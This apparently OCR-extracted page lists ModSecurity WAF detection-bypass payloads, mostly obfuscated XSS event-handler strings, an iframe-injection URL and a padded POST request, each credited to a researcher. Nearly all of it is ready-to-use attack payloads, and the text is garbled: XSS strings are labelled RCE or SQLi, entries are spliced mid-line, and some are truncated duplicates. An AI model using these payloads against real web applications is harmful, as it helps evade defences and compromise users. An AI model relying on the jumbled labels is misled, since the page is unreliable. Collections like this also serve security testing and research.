 ### **ModSecurity**

RCE Payloads Detection Bypass for PL3 by @theMiddle (v3.1)

```
<svg/onload=prompt(1);><isindex action="javas&tab;cript:alert(1)" type=image><marquee/onstart=confirm(2)>
```

RCE Payloads Detection Bypass for PL2 by @theMiddle (v3.1)

```
<p draggable=True ondragstart=prompt()>alert<bleh/ondragstart=	parent	['open']	()%20draggable=True>dragmeGET - XSS Bypass (v4.02) by @DavidK/search?q=%3Cimg%20src=%22WTF%22%20onError=alert(/0wn3d/.source)%20/%3E<img src="WTF" onError="{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v%2Ba%2Be%2Bs](e%2Bs%2Bv%2Bh%2Bn)(/0wn3d/.source)" />
```

RCE Payloads for PL1 and PL2 by @theMiddle (v3.0)

```
<img src="WTF" onError="{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/0wn3d/.source)" />clave XSS (v4.02) by @DavidK
```

RCE Payloads for PL3 by @theMiddle (v3.0)

```
<img src="WTF" onError="{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/0wn3d/.source)" />
```

SQLi Bypass by @Johannes Dahse (v2.2)

```
/?&idPais=3&clave=%3Cimg%20src=%22WTF%22%20onError=%22{
```

SQLi Bypass by @Yuri Goltsev (v2.2)

```
/?&idPais=3&clave=%3Cimg%20src=%22WTF%22%20onError=%22{
```

SQLi Bypass by @Ahmad Maulana (v2.2)

```
/waf/pcre_expression/validate?redir=/success&mkey=0%22%3E%3Ciframe%20src=http://vuln-lab.com%20onload=alert%28%22VL%22%29%20%3C/waf/pcre_expression/validate?redir=/success%20%22%3E%3Ciframe%20src=http://vuln-lab.com%20onload=alert%28%22VL%22%29%20%3C&mkey=0
```

```
/waf/pcre_expression/validate?redir=/success&mkey=0%22%3E%3Ciframe%20src=http://vuln-lab.com%20onload=alert%28%22VL%22%29%20%3C/waf/pcre_expression/validate?redir=/success%20%22%3E%3Ciframe%20src=http://vuln-lab.com%20onload=alert%28%22VL%22%29%20%3C&mkey=0
```

SQLi Bypass by @Roberto Salgado (v2.2)

```
POST /<path>/login-app.aspx HTTP/1.1Host: <host>User-Agent: <any valid user agent string>Accept-Encoding: gzip, deflateConnection: keep-aliveContent-Type: application/x-www-form-urlencodedContent-Length: <the content length must be at least 2399 bytes>var1=datavar1&var2=datavar12&pad=<random data to complete at least 2399 bytes>
```
